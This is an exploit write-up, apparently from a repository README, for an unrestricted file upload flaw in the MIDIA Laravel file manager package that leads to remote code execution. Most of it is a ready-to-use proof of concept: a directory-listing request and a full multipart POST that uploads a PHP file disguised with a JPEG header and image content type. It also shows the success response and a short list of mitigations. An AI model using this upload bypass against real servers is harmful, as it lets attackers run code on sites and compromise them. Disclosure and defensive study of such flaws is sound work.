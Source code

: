 # 🚨 MIDIA - Unrestricted File Upload / Arbitrary File Upload

**Exploit Title:** MIDIA Unrestricted File Upload / Arbitrary File Upload  
**Date:** 02 October 2024  
**Exploit Author:** Khunerable  
**Tested On:** Windows 11, Windows NT 10.0  
**Vendor Homepage:** [https://github.com/itskodinger/midia](https://github.com/itskodinger/midia/tree/master)

---

## 📄 Description

MIDIA is a file manager package for Laravel. A vulnerability exists that allows unauthenticated (or improperly authenticated) users to upload arbitrary files including PHP scripts to any available directory, resulting in remote code execution (RCE).

---

## 🧪 Proof of Concept (PoC)

### 📁 List Uploaded Files

To see the uploaded files and directory listings:

```
GET /midia/get/1?key=&directory_name=blog
```

Example:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

### 📤 Upload Malicious File

**Request:**

```
POST /midia/upload?directory_name=blog HTTP/2
Host: example.com
Cookie: [Your Session Cookies]
X-Csrf-Token: [CSRF Token from target]
Content-Type: multipart/form-data; boundary=---------------------------boundary

-----------------------------boundary
Content-Disposition: form-data; name="file"; filename="dummy.php"
Content-Type: image/jpeg

ÿØÿà<?php phpinfo(); ?>
-----------------------------boundary--
```

You must replace:

- `directory_name=blog` with any available directory
- `X-Csrf-Token` with valid token
- Cookies with valid `XSRF-TOKEN` and session values

---

### ✅ Server Response

Successful upload will return a JSON response:

```json
{
  "success": "dummy.php"
}
```

Your file can be accessed at:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

## ⚠️ Impact

This vulnerability allows an attacker to:

- Upload and execute arbitrary PHP code
- Gain remote access to the server
- Compromise entire Laravel applications using this package

---

## 🛡️ Recommendation

- Update or patch the MIDIA package to restrict file types and enforce authentication
- Implement server-side MIME validation
- Prevent `.php`, `.phar`, or similar executable uploads

---

> 📌 Disclaimer: This repository is for educational purposes only. Use responsibly.
